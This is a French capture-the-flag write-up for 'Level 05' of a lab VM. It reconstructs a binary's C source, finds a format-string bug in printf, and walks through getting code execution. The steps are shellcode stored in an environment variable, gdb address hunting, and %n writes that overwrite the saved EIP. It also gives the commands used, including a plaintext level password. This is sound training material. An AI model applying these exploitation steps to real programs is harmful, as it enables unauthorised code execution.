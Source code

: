 # Level 05

Lorsqu'on exécute le binaire, un input est attendu sur l'entrée standard. Il est ensuite réaffiché sur la sortie standard. Si des majuscules sont entrées, elles sont mises en minuscule.

On peut réécrire un code source en C à partir du code asm du binaire :

```c
int main(int argc, const char **argv)
{
	char buffer[100]; // esp+0x28
	int i;			  // esp+0x8c

	i = 0;
	fgets(buffer, 100, stdin);

	int i = 0;
	while (i < strlen(buffer)) // not really a call to strlen function
	{
		if (buffer[i] >= 'A' && buffer[i] <= 'Z')
			buffer[i] = buffer[i] - 'A' + 'a'; // buffer[i] ^ 0x20
		i++;
	}
	printf(buffer);
	exit(0);
}
```

On voit rapidement qu'on peut utiliser une **format string attack** puique la fonction **printf** est appelée avec comme 1er argument le buffer dans lequel on écrit.

Grâce au specifier `%n` on va pouvoir écrire dans la mémoire. On peut donc écraser l'**eip sauvegardé** de la fonction **printf** pour pouvoir jump à un endroit où on aura insérer un shellcode.

On ne peut pas vraiment insérer notre shellcode dans le buffer puisque, tous les octets compris entre 'A' et 'Z' seront modifiés. Cependant, on peut introduire notre shellcode dans une variable d'environnement.

Notre but est donc d'écraser l'**eip sauvegardé** de la fonction **printf** par l'adresse de la variable d'environnement qui contient notre shellcode.

Il nous faut trouver ces deux adresses. On commence par introduire notre shellcode dans la variable d'environnemment `SCRIPT` :

```bash
export SCRIPT="$(cat /tmp/args/env_var)"
```

Ensuite dans gdb on place un breakpoint au niveau du printf, puis on rentre dans la fonction pour récupérer l'**eip sauvergardé** :

```gdb
b *0x8048507
r
*on écrit ce qu'on veut pour l'entrée standard*
si
i f
```

Avec la commande `i f` (info frame), on peut lire sur la dernière ligne la valeur de l'adresse.

Pour récupérer l'adresse de notre variable d'environnement `SCRIPT` on peut faire comme-ci dessous avec gdb peda :

```gdb
b main
r
find "SCRIPT"
```

Maintenant que nous avons nos deux adresses il faut construire notre _format string_.

En utilisant cette commande :

```bash
$ echo "aaaaaaaaaaaaaaaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x"
aaaaaaaaaaaaaaaaa 64 f7fcfac0 0 0 0 0 ffffffff ffffd4e4 f7fdb000 61616161 61616161 61616161 61616161 78252061
```

On se rend compte que notre début de string est écrit dans la stack qu'à partir du dixième argument. On peut donc utiliser la format string suivante : `ADDR %WIDTHx %10$n`, avec _ADDR_ qui correspond à l'adresse où l'on veut écrire donc l'**eip sauvegardé** et _WIDTH_ l'adresse où se situe notre shellcode.

Cependant l'adresse où se sitre notre shellcode, étant assez grande, la _width_ est trop grande et pas prise en compte. Même en ayant 4 arguments de la _width_ divisé par 4, cela ne marche pas.

Pour palier à ce problème, on va écrire les 2 octets les plus bas de notre adresse à l'**eip sauvegardé** et les 2 octets les plus haut à l'**eip sauvegardé + 2**. On obtient donc : `ADDR ADDR+2 %WIDTH1x %10$n %WIDTH2x %11$n`. Voir Ressources/generator.cpp.

## Commandes

Depuis l'hôte :

```bash
make && ./generator && sshpass -p '3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN' scp -P 4242 -r args level05@localhost:/tmp/
```

Sur la vm :

```bash
export SCRIPT="$(cat /tmp/args/env_var)"
./level05 < /tmp/args/arg
```

## Sources

- https://resources.infosecinstitute.com/topic/exploiting-format-strings-getting-the-shell/
